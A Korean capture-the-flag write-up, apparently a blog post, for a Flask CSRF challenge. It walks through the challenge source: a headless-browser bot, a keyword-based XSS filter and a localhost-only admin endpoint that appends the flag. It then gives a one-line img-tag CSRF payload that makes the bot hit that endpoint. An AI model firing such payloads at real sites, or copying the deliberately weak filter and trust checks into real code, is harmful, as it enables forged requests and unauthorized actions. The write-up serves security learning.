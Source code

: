 ### 문제 코드

#### read_url

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        print(str(e))
        # return str(e)
        return False
    driver.quit()
    return True
```

해당 url을 방문합니다.

#

#### check_csrf

```python
def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

param를 CSRF 취약점이 발생하는 파라미터로 만들어 read_url 함수를 호출합니다.


#

#### app.route("/")

```python
@app.route("/")
def index():
    return render_template("index.html")
```

index.html 페이지를 랜더링 합니다.


#


#### app.route("/vuln")

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

frame, script, on 태그가 들어오면 모두 *로 변환합니다.


#

#### app.route("/flag", methods=["GET", "POST"])

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

사용자에게 입력창을 보여주고 입력 받은 내용을 인자로 check_csrf 함수를 호출합니다. 

#

#### @app.route("/memo")

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)
```

memo.html에 memo_text를 넣어서 랜더링합니다.

#

#### app.route("/admin/notice_flag")

```python
@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"
```

IP 주소가 localhost이고 userid가 admin이면 memo_text에 FLAG를 대입합니다.

⇾ 입력받은 URL을 확인하는 봇이 구현되어 있다고 하니 CSRF 취약점을 이용해서 봇이 /admin/notice_flag 페이지로 접속하게 하면 될거 같습니다. 이때 FLAG를 얻기 위해 userid는 admin으로 해줘야 합니다.


<br>


### 익스플로잇

/admin/notice_flag 페이지에 userid가 admin으로 접속하도록 공격 코드를 짜보면

```html
<img src="/admin/notice_flag?userid=admin">
```

#

공격 코드를 넣어보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/ec50cf7b-6500-4a8f-96a8-0cc03848a157/image.png">

![](https://velog.velcdn.com/images/silvergun8291/post/436f5744-860d-44a4-ac07-c1e5a19be57c/image.png)

공격에 성공해서 FLAG가 출력되었습니다.


